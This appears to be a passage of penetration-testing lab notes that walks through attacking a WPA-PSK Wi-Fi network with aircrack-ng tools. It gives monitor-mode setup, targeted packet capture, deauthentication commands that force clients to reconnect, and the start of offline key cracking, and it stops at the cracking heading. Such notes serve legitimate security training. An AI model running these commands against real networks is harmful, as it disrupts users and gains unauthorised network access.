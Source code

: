 Proof.txt
```
curl http://<ip>/proof.txt
```

# WPA PSK


**Workflow**
1. **Capture handshake** with `airodump-ng`.
2. **Force client reconnect** with `aireplay-ng` (deauthentication).
3. **Crack PSK offline** with `aircrack-ng` using a wordlist.
4. **Verify key** with `airdecap-ng` or Wireshark.

After identifying the BSSID and channel, we begin capturing packets. Next, we force a deauthentication to trigger a client reconnection, which allows us to capture the 4-way handshake. Finally, we attempt to crack the handshake by testing candidate PSKs from a wordlist, deriving the corresponding PMK, and verifying the correct key to gain access to the network.


## Setup Interface

```
sudo airmon-ng check kill && sudo airmon-ng start wlan0
```


## Capture packets with the `WPA PSK` network info

```
sudo airodump-ng --band abg --manufacturer --wps wlan0mon
```

## Capture targeted packets

```
sudo airodump-ng --band abg --manufacturer --bssid F0:9F:C2:71:22:12 -c 6 -w psk wlan0mon
```

## Force client reconnect and capture handshake (do to different stations if need be):

- If client-specific deauth fails → try broadcast deauth (`0 1 -a <BSSID>` without `c`).
- If 802.11w (Protected Management Frames) is enabled → deauth won’t work → must wait for natural reconnect.

-c: client
-a: AP
```
sudo aireplay-ng -0 5 -c <station-bssid> -a <ap_bssid> wlan0mon
```

**Let it capture a bit more traffic so we can decrypt it later and check our key is correct!**

## Crack PSK
